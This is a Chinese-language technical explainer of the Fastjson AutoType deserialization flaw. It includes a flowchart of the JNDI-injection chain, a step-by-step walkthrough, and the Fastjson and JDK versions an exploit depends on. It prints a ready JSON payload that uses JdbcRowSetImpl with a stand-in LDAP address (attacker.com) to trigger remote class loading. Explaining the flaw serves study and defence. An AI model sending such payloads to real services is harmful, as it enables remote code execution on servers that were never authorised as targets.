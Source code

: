 ## 漏洞原理

Fastjson 反序列化漏洞的核心原理在于其 **AutoType 功能的设计缺陷**，该功能允许在解析 JSON 数据时，根据指定的 `@type`字段动态加载并实例化任意类。攻击者通过精心构造恶意 JSON 数据，利用此特性触发远程代码执行（RCE）。

```mermaid
flowchart TD
    A[攻击者构造恶意JSON] --> B[Fastjson解析JSON读取type字段]
    B --> C[实例化指定类<br>如JdbcRowSetImpl]
    C --> D[自动调用Setter方法<br>如setDataSourceName]
    D --> E[设置恶意JNDI地址<br>如ldap://attacker.com/Exploit]
    E --> F[触发危险方法<br>如setAutoCommit（true）]
    F --> G[内部调用connect方法]
    G --> H[JNDI<br>Lookup操作]
    H --> I[请求攻击者控制的LDAP/RMI服务器]
    I --> J[服务器返回恶意Reference对象]
    J --> K[目标服务器加载并执行恶意类]
    K --> L[远程代码执行完成]
```

### 🔍 关键环节解析

1. **AutoType 的初衷与缺陷**：Fastjson 引入 `@type`属性本是为了支持多态反序列化，即在反序列化时能准确地恢复原始数据类型。然而，在早期版本（如 ≤1.2.24）中，此功能缺乏严格的限制，使得攻击者可以通过该字段指定目标服务器类路径中存在的**任何类**（包括一些已知的危险类），Fastjson 都会无条件地去实例化它，并自动调用其相关的 setter 或 getter 方法。

2. **恶意类的指定与实例化**：攻击者会精心构造一个 JSON 对象，将其 `@type`的值设置为一个已知的、可利用的类。一个经典的例子是 `com.sun.rowset.JdbcRowSetImpl`，它是 Oracle JDK 中自带的一个类。

   ```
   {
     "@type": "com.sun.rowset.JdbcRowSetImpl",
     "dataSourceName": "ldap://attacker.com/Exploit",
     "autoCommit": true
   }
   ```

3. **危险方法的自动调用**：Fastjson 在实例化 `JdbcRowSetImpl`后，会根据 JSON 中的键值对，通过反射自动调用其对应的 setter 方法。这里会依次调用：

   - `setDataSourceName("ldap://attacker.com/Exploit")`：设置一个指向攻击者控制服务器的 JNDI 地址。
   - `setAutoCommit(true)`：**这是触发点**。在 `setAutoCommit(true)`的内部实现中，会调用 `connect()`方法以尝试建立数据库连接。

4. **JNDI 注入与 RCE**：在 `connect()`方法中，会执行 `this.getDataSource().getConnection()`。由于 `dataSourceName`已被设置为恶意地址，系统会进行 JNDI 查找（即 `InitialContext.lookup(attacker.com/Exploit)`）。如果目标服务器运行的 **JDK 版本较低（≤8u191）**，且相关安全限制未开启，它就会连接到攻击者架设的 LDAP 或 RMI 服务器，并加载服务器返回的恶意 Reference 对象，从而执行其中的恶意代码。

### ⚙️ 漏洞利用的环境依赖

成功利用此漏洞通常需要以下条件：

- **Fastjson 版本**：≤1.2.24 版本几乎无防护；1.2.25 至 1.2.80 版本虽引入了黑名单机制，但存在多种绕过手法。
- **JDK 版本**：JDK 版本需低于 8u191、7u201 或 6u211，这些版本之后默认关闭了 JNDI 远程类加载。
- **目标类路径**：需要存在可利用的类（如 `JdbcRowSetImpl`）。
- **网络连通性**：目标服务器需要能够访问攻击者控制的 LDAP/RMI 服务。
